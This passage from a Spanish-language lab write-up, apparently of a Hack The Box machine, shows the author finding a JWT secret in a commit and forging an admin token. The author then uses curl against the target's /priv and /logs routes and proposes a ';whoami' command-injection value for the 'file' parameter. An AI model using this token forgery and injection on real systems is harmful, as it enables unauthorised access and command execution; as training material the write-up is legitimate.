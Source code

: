 ¿Puede que sea este el token para poder editar los **JWT**? Lo dejaré pendiente por probar, de momento sigo inspeccionando el código fuente.

Tras rebuscar un buen rato, me encuentro con algo interesante. Precisamente en el archivo `local-web/routes/private.js`:

![image](https://user-images.githubusercontent.com/67548295/160951270-b2498370-4475-4477-899e-002504907146.png)

Vemos el archivo que maneja la _ruta de acceso privada_ que probamos antes.

También se aprecia que esta ruta `/priv` a la que estabamos intentando acceder antes valida si el nombre en el **JWT** es `theadmin`.

Pero no solo eso, tambien encuentro esto en el mismo archivo:

![image](https://user-images.githubusercontent.com/67548295/160951792-f211326d-f165-4107-86d9-931f4c823b70.png)

Descubro otra ruta, `/logs` la cual ejecuta un comando a nivel de sistema pasandole como argumento lo que nosotros introduzcamos en el parametro GET "_file_".

Esto es crítico, ya que nos permitiría ejecutar comandos de forma arbitraria.

Pero para hacer esto tenemos que encontrar ver la manera de ser `theadmin` al realizar la petición, ya que estas vulnerables líneas de código están en un **condicional if** que evalua si el nombre en el JWT es `theadmin`

Bien, antes habíamos encontrado un token en un commit. Probemos si podemos editar nuestro JWT con este token:

Para ello, genero mi **JWT** con mi usuario creado y lo introduzco en [jwt.io](https://jwt.io){:target="\_blank"}{:rel="noopener nofollow"}:

![image](https://user-images.githubusercontent.com/67548295/160952463-7e0e24ae-127f-44c1-a73e-42a9eef262d3.png)

Ahora cambiamos el valor del campo _name_ por `theadmin`. También colocamos el token que encontramos en la sección _verify signature_:

![image](https://user-images.githubusercontent.com/67548295/160952720-0923683d-aae1-4b7a-8648-3c98c7a9243f.png)

Bien, ahora copiamos el **JWT** obtenido e intentamos acceder a la ruta `/priv` por ejemplo:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/local-web/routes]
└──╼ $ curl -X GET http://10.10.11.120:3000/api/priv -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjQ0ZTYxZWY4YjM5MTA0NWIzYzM4YjUiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InozcjBieXRlQHozcjAuY29tIiwiaWF0IjoxNjQ4NjgzNTQ3fQ.PKplW4pupx9CCUREmMxvUVdkdlYmmmkWNq9uvYa6Elo" ; echo
{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}
```
¡Ha funcionado!

Probemos ahora a acceder a la ruta `/logs` la cual habíamos visto antes que era vulnerable:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/local-web/routes]
└──╼ $ curl -X GET http://10.10.11.120:3000/api/logs -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjQ0ZTYxZWY4YjM5MTA0NWIzYzM4YjUiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InozcjBieXRlQHozcjAuY29tIiwiaWF0IjoxNjQ4NjgzNTQ3fQ.PKplW4pupx9CCUREmMxvUVdkdlYmmmkWNq9uvYa6Elo" ; echo
{"killed":false,"code":128,"signal":null,"cmd":"git log --oneline undefined"}
```
Interesante. Probemos añadirle el parametro GET `file` con algun valor especial para ver si se ejecutan comandos, por ejemplo `;whoami`
